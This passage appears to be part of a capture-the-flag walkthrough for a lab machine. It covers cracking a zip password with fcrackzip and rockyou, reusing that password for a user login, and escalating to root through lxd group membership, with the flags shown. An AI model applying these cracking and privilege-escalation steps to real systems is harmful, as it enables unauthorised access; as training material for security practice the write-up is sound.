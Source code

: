 ## 10 - Cracking the zip

Zip is password protected (found the too online)... 

```
fcrackzip -u -D -p "/usr/share/wordlists/rockyou.txt" files.zip

Password= admin@it
```
The files had nothing interesting and poking around i did not found any abismal vuln, lets try the password as ash system password<br>
It worked !!

## 11 - PrivEsc

But first lets get the flag

```
cat /home/ash/user.txt

FLAG: 7742122ddba51ab353624a4a9294df62
```

After running linpeas i went ahead and found one binary file suspicious with a pointed CVE but there was no gcc to compile the exploit
```
/usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
```

Other thing that i did not noticed and was very highlighted was LXD with RED/YELLOW highlight (99% PE) by linpeas.
```
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd) 
```

After a little search i found a vulnerability related to the user being in the lxd group which allows a privesc through its containers to get root privileges

<br>
src: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

<br>
I followed the second method in my local machine until the import step (there i uploaded the produced files to the target machine) 

After following the exploitation
```
whomai 
root

find / -type f -iname "root.txt" -print 2>/dev/null
/mnt/root/root/root.txt
cat /mnt/root/root/root.txt

FLAG: 7ced683256bc943cb1980254e1f86b72
```






